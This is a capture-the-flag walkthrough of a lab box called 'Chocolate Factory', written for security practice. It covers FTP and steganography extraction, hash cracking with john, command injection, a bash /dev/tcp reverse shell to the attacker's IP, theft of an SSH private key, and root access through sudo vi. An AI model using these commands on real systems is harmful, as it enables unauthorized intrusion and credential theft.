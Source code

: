 # CHOCOLATE FACTORY

---------------------
## IP: `10.10.239.116`<br />

---------------------
##### Open Ports Via Nmap -

`nmap -sC -sV -oN nmap/initial 10.10.239.116`<br />

![image](images/nmap.png)

```
21
22
80
100
106
109
110
111
113
119
125
```

-----------------------
##### We saw `anonymous` ftp login is enabled -<br />

![image](images/anonFTP.png)

> we get a jpg file<br />

![image](images/ftp.png)

> we can extract hidden data inside this image using steghide:<br />

Leave the passphrase field empty (:<br />

`steghide extract -sf gum_room.jpg`<br />

> We get a `base-64` encoded txt file<br />

To decode it we can do-<br />

`cat b64.txt | base64 -d > decodedB64`<br />

![image](images/charlieHash.png)

Yay we get charlie user's hash, we can crack it using john/hashcat<br />

First, store the hash inside a file:<br />

`echo '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' > charlieHASH`<br />

```
john charlieHASH --w=/usr/share/wordlists/rockyou.txt
```

![image](images/john.png)

> We got the charlie's pass - <br />

```
c...4
```

But we can't login via ssh with these creds, now i did a gobuster scan to find subdirectories (:<br />

`gobuster dir -u http://10.10.239.116 -w /usr/share/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 30 | tee gobuster.log`<br />

We get the following results-<br />

![image](images/gobuster.png)

```
/home.php
/index.html
```

-------------------
> Now there is a bit of a hoax and i don't know the why the owner did this?! lol<br />

1. If we navigate to `http://10.10.239.116/index.html`, we can see a login form. We can login via charlie creds.<br />

![image](images/index.png)

And we get redirected to `/home.php` and there's a command injection form, and we can execute and see results for commands like `id`, `whoami`, ...<br />

![image](images/home.png)

2. Or we can straight-forward navigate to `/home.php` and access that page, right!<br />

3. Never mind, let's get our rev-shell-<br />

`bash -c 'exec bash -i &>/dev/tcp/10.8.91.66/8888 <&1'`<br />

![image](images/www.png)

4. Let's stabilize our shell-<br />

`python3 -c 'import pty;pty.spawn("/bin/bash")'`<br />

`export TERM=xterm`<br />

`^Z` (ctrl+z)<br />

To put the process in background<br />

`stty raw -echo;fg`<br />

To foreground the process<br />

--------------------
##### Task 2 - Challenges <br />

1. Enter the key you found!<br />

> We can found the key in /var/www/html<br /> 

`cat key_rev_key`<br />

![image](images/key.png)

```
b'...........................................='
```

2. What is Charlie's password?<br />

```
c....4
```

3. change user to charlie<br />

> We already checked that charlie's cracked hash wasn't the pass for ssh<br />

So we can directly `cd /home/charlie` from `www-data` user <br />

Here we will find user's ssh private key `teleport`, copy it in you machine and login via ssh<br />

![image](images/teleport.png)

We can login without the need for pass now, cuz we got charlie's ssh private key <br />

But after copy/pasting the private key to our machine, we need to give it read and write permisssions:<br />

`chmod 600 teleport`<br />

`ssh -i teleport charlie@10.10.239.116`<br />

4. Enter the user flag<br />

```
flag{cd..............................}
```

-------------------
##### Privilege Escalation Of User `charlie`: <br />

> First, we try checking sudo abilities of the user, by doing-<br />

`sudo -l`<br />

![image](images/sudo.png)

We found `/usr/bin/vi`, cool we can go-ahead and check [GTFO-BIN](https://gtfobins.github.io/gtfobins/vi/#sudo) for vi-<br />

![image](images/gtfo.png)

`sudo vi -c ':!/bin/sh' /dev/null`<br />


Ay, we are root `#` let's get our root flag<br />

`cd /root`<br />

We see a python script `root.py`, hmm<br />

> Let's cat that script and see what's inside it-<br />

![image](images/script.png)

Okay, it needs a key and we found a key in `/var/www/html`

> Let's run the python script-<br />

`python root.py`<br />

Enter the key we found...<br />

AY, we got our last flag, let's paste it and complete our challenge `<3`<br />

![image](images/complete.png)

5. Enter the root flag<br />

```
flag{ce..............................}
```


Congratulations Friend For Making It Up To Here<br />
h00dy<br />